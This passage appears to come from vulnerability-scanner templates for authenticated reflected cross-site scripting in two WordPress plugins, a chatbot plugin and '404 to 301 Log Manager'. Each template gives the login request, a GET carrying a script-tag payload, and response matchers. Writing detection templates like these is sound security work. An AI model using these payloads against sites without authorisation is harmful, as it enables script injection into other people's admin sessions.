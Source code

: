 ```
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/options-general.php?page=my-chatbot&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress 404 to 301 Log Manager \<3.1.2 - Cross-Site Scripting
## Description
- WordPress 404 to 301 Log Manager 3.1.2 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wpscan,wp-plugin,xss,wp,wordpress,authenticated
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=jj4t3-logs&a">\<script>alert(1)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers
